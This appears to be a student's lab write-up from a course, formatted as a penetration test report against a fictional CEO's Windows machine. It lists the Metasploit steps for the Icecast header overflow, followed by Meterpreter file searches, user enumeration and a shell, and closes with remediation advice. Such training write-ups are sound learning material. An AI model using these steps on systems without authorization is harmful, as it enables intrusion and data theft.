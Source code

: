 ## Week 17: Metasploit

### Background

For this assignment I played the role of a penetration tester hired by the fictional company GoodCorp Inc. to perform security tests against the CEO's computer.

## GoodSecurity Penetration Test Report

### 1.0 High-Level Summary

GoodSecurity was tasked with performing an internal penetration test on GoodCorp’s CEO, Hans Gruber. An internal penetration test is a dedicated attack against internally connected systems. The focus of this test is to perform attacks, similar to those of a hacker and attempt to infiltrate Hans’ computer and determine if it is at risk. GoodSecurity’s overall objective was to exploit any vulnerable software and find the secret recipe file on Hans’ computer, while reporting the findings back to GoodCorp.
When performing the internal penetration test, there were several alarming vulnerabilities that were
identified on Hans’ desktop. When performing the attacks, GoodSecurity was able to gain access to his machine and find the secret recipe file by exploiting two programs that had major vulnerabilities. The details of the attack can be found in the ‘Findings’ category.

### 2.0 Findings

**Machine IP:**
192.168.0.20

**Hostname:**
MSEDGEWIN10

**Vulnerability Exploited:**
Icecast Header Overwrite: exploit/windows/http/icecast_header

**Vulnerability Explanation:**
This is a buffer overflow attack which allows the attacker to execute code when too much data is entered into the header of icecast versions 2.0.1 and earlier.  Specifically, 32 HTTP headers must be sent to the remote host in order to overwrite saved instructions.  This vulnerability is exploited with the help of ExitThread to make icecast think the thread is still in use.

**Severity:**
This vulnerability is critical.  An attacker could access everything on the CEO’s machine including the system information.  Therefore, this vulnerability could have been exploited for reconnaissance purposes to gather information to perform a future attack.  Additionally, an attacker potentially could have found banking information for the CEO or the company, they could have accessed sensitive documents pertaining to the CEO which could have led to the theft of his identity, or the attacker may have uncovered proprietary information about their products which the company would not want in the hands of their competitors.  As the attacker had full access to the CEO’s machine, the possibilities are endless when it comes to the damage the attacker could cause.

**Proof of Concept:**
1. Ran nmap on the IP address to perform a service and version scan: 
   - nmap -sV 192.168.0.20

2. Found the Icecast service was running so I used SearchSploit to search for exploits: 
   - searchsploit icecast

3. Set up the exploit using Metasploit:
   - search icecast
   - use exploit/windows/http/icecast_header
   - set RHOSTS 192.168.0.20
   - exploit

4. Found files:
   - Found secretfile.txt : search -f *secret*
   
     ![secretfile](Images/Week_17/secretfile.png)
   
   - Found recipe.txt: search -f *recipe*
   
     ![recipe](Images/Week_17/recipe.png)

5. Used Meterpreter’s local exploit searcher to determine additional exploits: 
   - run post/multi/recon/local_exploit_suggester
     - Discovered the following exploits:
       - exploit/windows/local/ikeext_service
       - exploit/windows/local/ms16_075_relection
         
         ![local_exploit_suggester](Images/Week_17/local_exploit_suggester.png)

6. Enumerated all logged on users: 
   - run post/windows/gather/enum_logged_on_users
     
     ![enum_logged_on_users](Images/Week_17/enum_logged_on_users.png)

7. Opened a Meterpreter shell and determined system information:
   - shell
   - systeminfo
     
     ![systeminfo1](Images/Week_17/systeminfo1.png)
     ![systeminfo2](Images/Week_17/systeminfo2.png)

### 3.0 Recommendations

1. All software needs to be updated to the latest versions.
2. Password protect and/or encrypt files containing sensitive information.
3. Update firewall rules to only allow traffic on necessary ports.
4. Consider limiting the information company executives have access to as they are high profile targets.
